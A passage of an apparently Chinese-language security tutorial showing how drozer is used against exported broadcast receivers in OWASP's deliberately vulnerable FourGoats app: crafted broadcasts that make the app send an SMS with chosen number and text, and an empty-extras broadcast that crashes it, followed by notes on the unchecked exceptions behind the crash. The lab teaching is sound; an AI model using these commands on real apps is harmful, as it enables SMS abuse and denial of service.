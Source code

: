 ![](https://bbs.pediy.com/upload/attach/202109/905443_2XE9SEJGRQCUMNF.png)

 

我们根据组件的类名找对对应的源码信息，发现需要两个参数 phoneNumber、message：

 

![](https://bbs.pediy.com/upload/attach/202109/905443_XCMZJX9FR3PR9PJ.png)

 

我们发送恶意广播:

```
run app.broadcast.send --action 广播名 --extra string name lisi

```

在此之前，我们在 AndroidManifest.xml 文件里面获取广播名：

 

![](https://bbs.pediy.com/upload/attach/202109/905443_FTZR27MCP3NSBM8.png)

 

我们发送恶意广播：

```
run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --extra string phoneNumber 1234 --extra string message dog

```

可以发现我们恶意广播发送成功

 

![](https://bbs.pediy.com/upload/attach/202109/905443_B6KSTA4QPWN8HDW.png)

 

![](https://bbs.pediy.com/upload/attach/202109/905443_HMA7KHSPECKKXNY.png)

 

我们再向广播组件发送不完整 intent，使用空 extras，可以看到应用停止运行：

```
run app.broadcast.send --action 
```

![](https://bbs.pediy.com/upload/attach/202109/905443_C6E78USX565KHC5.png)

 

我们就成功完成一次拒绝服务攻击

 

修复：

```
空指针异常
类型转换异常
数组越界访问异常
类未定义异常
其他异常
 
//Serializable：
Intent i = this.getIntent();
if(i.getAction().equals(“serializable_action”)){
 
  i.getSerializableExtra("serializable_key");//未做异常判断
}
//Parcelable:
this.b=(RouterConfig)this.getIntent().getParcelableExtra(“filed_router_config”);//引发转型异常崩溃
```